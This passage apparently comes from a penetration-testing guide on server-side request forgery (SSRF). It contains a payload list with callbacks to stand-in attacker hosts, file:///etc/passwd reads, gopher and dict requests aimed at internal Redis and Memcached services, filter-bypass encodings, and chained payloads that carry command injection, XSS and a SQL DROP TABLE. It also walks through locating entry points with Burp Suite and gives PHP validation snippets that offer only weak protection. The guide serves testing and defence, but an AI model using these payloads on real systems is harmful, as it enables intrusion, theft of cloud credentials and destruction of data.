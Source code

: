 - **Blind SSRF Payloads**:
  - `http://burpcollaborator.net` (Burp Collaborator callback)
  - `http://attacker.com/log` (Attacker-controlled server)
  - `http://<your-vps-ip>:8080` (Custom listener)
  - `http://dnsbin.attacker.com` (DNS-based callback)

- **Protocol Manipulation Payloads**:
  - `file:///etc/passwd` (File protocol)
  - `gopher://localhost:6379/_INFO` (Gopher for Redis)
  - `ftp://attacker.com` (FTP protocol)
  - `dict://localhost:11211/stat` (Memcached protocol)

- **Filter Bypass Payloads**:
  - `http://127.0.0.1#@example.com` (Obfuscation with @)
  - `http://localhost:80@attacker.com` (Port and @)
  - `http://127.0.0.1%20@attacker.com` (Encoded space)
  - `http://0x7f000001` (Hex-encoded IP)

- **Chained Attack Payloads**:
  - `http://localhost/admin?cmd=whoami` (SSRF + Command Injection)
  - `http://169.254.169.254/latest/meta-data/iam/security-credentials/role<script>alert(1)</script>` (SSRF + XSS)
  - `http://internal:8080/api?sql=1;DROP TABLE users` (SSRF + SQL Injection)
  - `http://localhost?host=attacker.com` (SSRF + Host Header Injection)

**Note**: Payloads depend on the application’s request handling (e.g., cURL, HTTP libraries) and server environment (e.g., AWS, on-premises). Test payloads in query parameters, form fields, headers, or JSON payloads where URLs are processed.

### 1. Identify SSRF Entry Points

**Objective**: Locate inputs that influence server-side requests.

**Steps**:
1. Browse the website:
   - Visit the target (e.g., `http://example.com`).
   - Identify features like URL fetchers, webhooks, or file imports (e.g., image previews, API integrations).
2. Capture requests with Burp Suite:
   - Enable Intercept (Proxy > Intercept > On).
   - Submit forms or interact with features to capture requests in HTTP History.
   - Note parameters (e.g., `url=http://example.com`, `file=import.txt`).
3. Inspect responses:
   - Check for fetched content or errors indicating server-side requests.
   - Use Developer Tools (`Ctrl+Shift+I`) to analyze responses.
4. List entry points:
   - Document query strings, form fields, headers, and JSON payloads.

**Example Entry Points**:
- URL: `http://example.com/fetch?url=http://example.com`
- Form: `<input name="image_url">`
- API: `POST /api/import` with `{"url": "http://example.com"}`

**Remediation**:
- Validate URLs:
  ```php
  if (!filter_var($url, FILTER_VALIDATE_URL)) die("Invalid URL");
  ```
- Whitelist domains:
  ```php
  $allowed = ['example.com'];
  if (!in_array(parse_url($url, PHP_URL_HOST), $allowed)) die("Invalid domain");
  ```
